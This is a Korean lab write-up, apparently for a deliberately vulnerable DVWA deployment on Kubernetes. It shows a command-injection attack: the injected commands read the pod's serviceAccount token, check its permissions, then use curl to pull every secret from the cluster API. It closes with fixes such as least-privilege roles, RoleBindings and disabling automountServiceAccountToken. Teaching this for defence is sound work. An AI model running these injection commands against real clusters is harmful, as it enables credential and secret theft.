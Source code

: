 # 공격 시나리오
* serviceAccount 토큰을 사용하여 쿠버네티스 secret을 탈취


# 공격 방법
1. serviceAccount token 확인

```sh
127.0.0.1 -c 1 && cat /run/secrets/kubernetes.io/serviceaccount/token
```

![token](./imgs/attack1_token.png)

2. pod(정확한 표현은 serviceAccount)의 namespace 확인

```sh
127.0.0.1 -c 1 && cat /run/secrets/kubernetes.io/serviceaccount/namespace
```

![token](./imgs/attack1_namespace.png)

3. serviceAcount token 권한 확인

```sh
127.0.0.1 -c 1 && cat /run/secrets/kubernetes.io/serviceaccount/token | { read TOKEN; curl -k -v -X POST -H "Authorization: Bearer $TOKEN" -H "Content-Type: application/json" -d '{"apiVersion":"authorization.k8s.io/v1","kind":"SelfSubjectRulesReview","spec":{"namespace":"dvwa"}}' https://kubernetes.default.svc.cluster.local/apis/authorization.k8s.io/v1/selfsubjectrulesreviews; }
```

![token](./imgs/attack1_authorization.png)

4. 모든 namespace의 secrets 탈취

```sh
127.0.0.1 -c 1 && cat /run/secrets/kubernetes.io/serviceaccount/token | { read TOKEN; curl -k -v -H "Authorization: Bearer $TOKEN" -H "Content-Type: application/json" https://kubernetes.default.svc.cluster.local/api/v1/secrets; }
```

![steal_secrets](./imgs/attack1_steal_secrets.png)

# 설정 해결

* [role](./dvwa_webapp/clusterrole.yaml)에서 필요한 권한(최소권한)만 설정
* [clusterrole binding](./dvwa_webapp/clusterrolebinding.yaml)를 rolebinding으로 변경 -> 다른 namespace 접근 불가
* token이 불필요하면 automountServiceAccountToken을 false로 설정
* secret 데이터는 암호화해서 저장

# 참고자료
* https://cloud.hacktricks.xyz/pentesting-cloud/kubernetes-security/abusing-roles-clusterroles-in-kubernetes
